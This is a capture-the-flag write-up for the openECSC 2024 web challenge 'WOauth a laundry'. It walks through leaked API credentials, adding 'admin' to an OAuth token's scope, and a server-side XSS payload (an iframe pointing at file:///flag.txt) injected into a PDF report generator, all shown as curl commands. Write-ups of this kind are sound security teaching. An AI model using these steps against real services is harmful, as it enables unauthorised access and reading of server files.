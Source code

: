 # WOauth a laundry!
> ### Category: web
>
> Welcome to our innovative business, the only ONE Laundry capable of completely sanitize your clothing by removing 100% of bacteria and viruses.
>
> Flag is in /flag.txt.
>
> Site: [http://woauthalaundry.challs.open.ecsc2024.it](http://woauthalaundry.challs.open.ecsc2024.it)
## Initial recon
Initially, the site appears to be empty. Some content appears after the `Login` button is pressed:

![media/website_0.png](media/website_0.png)

## API token
There are no cookies saved on the client side, however there are some interesting values in the session storage:

![media/website_1.png](media/website_1.png)

There appears to be some kind of API token and there's also a field `admin` set to 0. If we change it to 1 and reload the website, a new `Admin` tab will appear. It contains a single button `Generate report` which will attempt to perform a web request resulting in `401 Unauthorized` when pressed:

![media/website_2.png](media/website_2.png)

Let's investigate how the access token is generated. Log out, set a breakpoint on XHR requests and log back in:

The first performed requests seems to be fetching some sort of credentials:

![media/xhr_0.png](media/xhr_0.png)

This can be confirmed by performing it in curl:
```
$ curl http://woauthalaundry.challs.open.ecsc2024.it/api/v1/creds
{"client_id":"tAWvuF3X7dsp","client_secret":"bc4022e0b07b4e4f9239717a4d314043"}
```
However we don't see anything like the access token we saw in the session storage.

The second request seems like it actually returns the access token:

![media/xhr_1.png](media/xhr_1.png)

The `scope` path argument seems interesting - it is set to `laundry` and `amenities`. Earlier in the session storage we saw values corresponding to keys `laundries`, `amenities` and `admin`, therefore we might want to try adding `admin` to the `scope` (and we can also change the `cliend_id` to the one we got from curl):
```
$ curl 'http://woauthalaundry.challs.open.ecsc2024.it/openid/authentication?response_type=token%20id_token&client_id=tAWvuF3X7dsp&scope=openid%20laundry%20amenities%20admin&redirect_uri=http://localhost:5173/&grant_type=implicit&nonce=nonce'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="http://localhost:5173/#access_token=d83088659aa041b1a6d68d1f652b1fae&amp;token_type=Bearer&amp;expires_in=3600&amp;id_token=eyJhbGciOiJSUzI1NiJ9.eyJpc3MiOiAiaHR0cHM6Ly93b2F1dGhhbGF1bmRyeS5jaGFsbHMub3Blbi5lY3NjMjAyNC5pdC9vcGVuaWQiLCAic3ViIjogImYwZDVlOGU0YTE5ZjRkZTlmMTIzNWYyMjViMTYwM2NiMDVjMjEwMGM0OWYyZTQxNzI0YzI4YWE3MDViZmFjNmYiLCAiYXVkIjogWyJ0QVd2dUYzWDdkc3AiXSwgImlhdCI6IDE3MTQ0Nzc4OTIsICJleHAiOiAxNzE0NDgxNDkyLCAiYXRfaGFzaCI6ICJDenNnN3V5cTg2bklwQzlQa2c2aERnIiwgIm5vbmNlIjogIm5vbmNlIn0.bBUny3X6Sf9x6tt-bWIH5RTvzDJPY_KOj7BtUpCz4gGBSKCWxFa0nhlLmfb2S6i3zZiOlioMpje7Yw9FyjuCsWvQQu4H-0992eavZ-OPMlgrX_FSAW7ED9zdf4bkT_HSEG1tbpsIRqIlysZGJoRXTBMoBJQ7cjZQOfkKYaCfWYYyHyb7Ptyr3GCnvUgYAVMLtfdqy_-L-zzT1XrochCxpy_UG0aQeCFUc92ZUWDcXOsUgcwpxnFQfdgaKJlPg29vaH_q8y3hp6CpfdUBNPvAVu0_MOWM_D0ZmtZA6JGHCGqxbHI1mVSBVgveGhRldiEZe3LTHC3UJKQIC2Crw0y9uDS1YhQvUSxGC8juHweuoQcL3E3i5DFixRjbuzansffdy_JWITwh27J6GlNHqfQ3VLcX99NtUzIsHkz6iWWvFu-lVwrBUE66Kk7XhQJnga8Ud-LkahkNBelnl1YqGU5a-h_RyWSoaAfxplwxGjXLEryfPEwJAYaFAK16gONWxJzBK8gYTPng-6CspFBDS-KQto314nbHVqGYLUwvHM_Hqv7k4w3lFSsDBS8SS325lhakZAGzOR77qfqPOldfJ58YXtPm2z27FLI28_9Tgiqyss2tmqJGJVP8asdI46-0IY7ftrEhqYCKINV1QQ1iaJC3Au049j21y8K7aTpCDpnxnOk">http://localhost:5173/#access_token=d83088659aa041b1a6d68d1f652b1fae&amp;token_type=Bearer&amp;expires_in=3600&amp;id_token=eyJhbGciOiJSUzI1NiJ9.eyJpc3MiOiAiaHR0cHM6Ly93b2F1dGhhbGF1bmRyeS5jaGFsbHMub3Blbi5lY3NjMjAyNC5pdC9vcGVuaWQiLCAic3ViIjogImYwZDVlOGU0YTE5ZjRkZTlmMTIzNWYyMjViMTYwM2NiMDVjMjEwMGM0OWYyZTQxNzI0YzI4YWE3MDViZmFjNmYiLCAiYXVkIjogWyJ0QVd2dUYzWDdkc3AiXSwgImlhdCI6IDE3MTQ0Nzc4OTIsICJleHAiOiAxNzE0NDgxNDkyLCAiYXRfaGFzaCI6ICJDenNnN3V5cTg2bklwQzlQa2c2aERnIiwgIm5vbmNlIjogIm5vbmNlIn0.bBUny3X6Sf9x6tt-bWIH5RTvzDJPY_KOj7BtUpCz4gGBSKCWxFa0nhlLmfb2S6i3zZiOlioMpje7Yw9FyjuCsWvQQu4H-0992eavZ-OPMlgrX_FSAW7ED9zdf4bkT_HSEG1tbpsIRqIlysZGJoRXTBMoBJQ7cjZQOfkKYaCfWYYyHyb7Ptyr3GCnvUgYAVMLtfdqy_-L-zzT1XrochCxpy_UG0aQeCFUc92ZUWDcXOsUgcwpxnFQfdgaKJlPg29vaH_q8y3hp6CpfdUBNPvAVu0_MOWM_D0ZmtZA6JGHCGqxbHI1mVSBVgveGhRldiEZe3LTHC3UJKQIC2Crw0y9uDS1YhQvUSxGC8juHweuoQcL3E3i5DFixRjbuzansffdy_JWITwh27J6GlNHqfQ3VLcX99NtUzIsHkz6iWWvFu-lVwrBUE66Kk7XhQJnga8Ud-LkahkNBelnl1YqGU5a-h_RyWSoaAfxplwxGjXLEryfPEwJAYaFAK16gONWxJzBK8gYTPng-6CspFBDS-KQto314nbHVqGYLUwvHM_Hqv7k4w3lFSsDBS8SS325lhakZAGzOR77qfqPOldfJ58YXtPm2z27FLI28_9Tgiqyss2tmqJGJVP8asdI46-0IY7ftrEhqYCKINV1QQ1iaJC3Au049j21y8K7aTpCDpnxnOk</a>. If not, click the link.
```

It would that we actually got a new access token - let's put it in the session storage and try to generate a report once more:

![media/website_3.png](media/website_3.png)

This time we receive a PDF file. Let's try setting a breakpoint on XHR requests again:

![media/xhr_2.png](media/xhr_2.png)

A POST request with an empty body and our token in the `Authorization` header is sent. However, we can notice something interesting in the JavaScript console now:

![media/console_0.png](media/console_0.png)

It seems that this endpoint might expect a `requiredBy` key in the body. Let's try sending a request like this from curl:
```
$ curl -v -X POST http://woauthalaundry.challs.open.ecsc2024.it/api/v1/generate-report -H 'Content-Type: application/json' -H 'Authorization: Bearer d83088659aa041b1a6d68d1f652b1fae' -d '{"requiredBy": "John Doe"}' --output test.pdf
```
This results in a PDF with changed header being generated:

![media/website_4.png](media/website_4.png)

As we can see, the PDF is generated on the server and therefore the application might be vulnerable to server side XSS. We can use an example payload from [HackTricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf) to try reading the file with the flag:
```
$ curl -v -X POST http://woauthalaundry.challs.open.ecsc2024.it/api/v1/generate-report -H 'Content-Type: application/json' -H 'Authorization: Bearer d83088659aa041b1a6d68d1f652b1fae' -d '{"requiredBy": "<iframe src=file:///flag.txt></iframe>"}' --output test.pdf
```

![media/website_5.png](media/website_5.png)

## Flag
`openECSC{On3_l4uNdrY_70_ruL3_7h3m_4l1!_d208a530}`